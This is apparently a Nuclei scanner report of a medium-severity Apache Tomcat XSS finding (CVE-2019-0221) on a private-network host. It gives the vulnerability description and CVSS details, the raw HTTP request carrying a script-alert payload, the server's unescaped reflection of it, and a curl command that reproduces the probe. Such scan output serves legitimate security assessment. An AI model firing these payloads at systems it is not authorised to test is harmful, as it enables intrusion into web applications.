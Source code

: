 ### Apache Tomcat XSS (CVE-2019-0221) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2019-0221**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/ssi/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E

**Timestamp**: Wed Jun 8 20:22:27 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | Apache Tomcat XSS |
| Authors | pikpikcu |
| Tags | cve, cve2019, apache, xss, tomcat |
| Severity | medium |
| Description | The SSI printenv command in Apache Tomcat 9.0.0.M1 to 9.0.0.17, 8.5.0 to 8.5.39 and
7.0.0 to 7.0.93 echoes user provided data without escaping and is,
therefore, vulnerable to XSS. SSI is disabled by default.
The printenv command is intended for debugging and is unlikely to be present in a production website.
 |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2019-0221](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2019-0221) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /ssi/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 190
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/ssi/printenv.shtml?<script>alert('xss')</script></B> was not found.</BODY></HTML>
```

References: 
- https://seclists.org/fulldisclosure/2019/may/50
- https://wwws.nightwatchcybersecurity.com/2019/05/27/xss-in-ssi-printenv-command-apache-tomcat-cve-2019-0221/
- https://www.exploit-db.com/exploits/50119
- https://lists.apache.org/thread.html/6e6e9eacf7b28fd63d249711e9d3ccd4e0a83f556e324aee37be5a8c@%3cannounce.tomcat.apache.org%3e

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (X11; OpenBSD i386) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36' 'http://192.168.198.179:8080/ssi/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)